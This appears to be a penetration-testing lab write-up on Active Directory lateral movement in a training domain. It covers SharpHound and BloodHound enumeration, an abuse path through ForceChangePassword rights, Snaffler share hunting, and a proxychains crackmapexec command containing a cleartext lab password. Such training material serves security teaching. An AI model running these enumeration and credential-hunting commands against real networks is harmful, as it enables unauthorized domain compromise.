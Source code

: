 # Lateral Movement

## 🎯 Overview

**Lateral Movement** leverages **domain credentials** for **Active Directory enumeration**, **share hunting**, **Kerberoasting**, and **privilege escalation** across multiple hosts. Use **BloodHound** for attack path discovery, **file share analysis** for credential hunting, and **post-exploitation techniques** for comprehensive domain compromise.

## 🩸 BloodHound AD Enumeration

### 🔍 Data Collection
```bash
# SharpHound execution (from SYSTEM shell on DEV01)
SharpHound.exe -c All

# Collection methods enabled:
Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote

# Results:
2022-06-22T10:03:18 [*] Enumeration finished in 00:00:46
[*] Status: 3641 objects finished
[*] SharpHound Enumeration Completed! Happy Graphing!
```

### 🎯 Attack Path Analysis
```cmd
# hporter account analysis:
- ForceChangePassword rights over ssmalls user
- Domain Users group membership
- Limited direct privileges

# ssmalls account capabilities:
- Standard domain user access
- Department Shares read access
- SYSVOL share access (all domain users)

# Key finding: Domain Users → RDP access to DEV01
Risk: Medium (Excessive Active Directory Group Privileges)
```

## 📁 File Share Hunting

### 🔍 Share Discovery & Enumeration
```bash
# Initial share enumeration (hporter)
Snaffler.exe -s -d inlanefreight.local -o snaffler.log -v data
# Result: Limited access, basic shares only

# Enhanced enumeration (ssmalls)
proxychains crackmapexec smb 172.16.8.3 -u ssmalls -p Str0ngpass86! -M spider_plus --share 'Department Shares'

# Discovered shares:
\\DC01.INLANEFREIGHT.LOCAL\Department Shares (accessible)
\\DC01.INLANEFREIGHT.LOCAL\SYSVOL (domain users access)
```
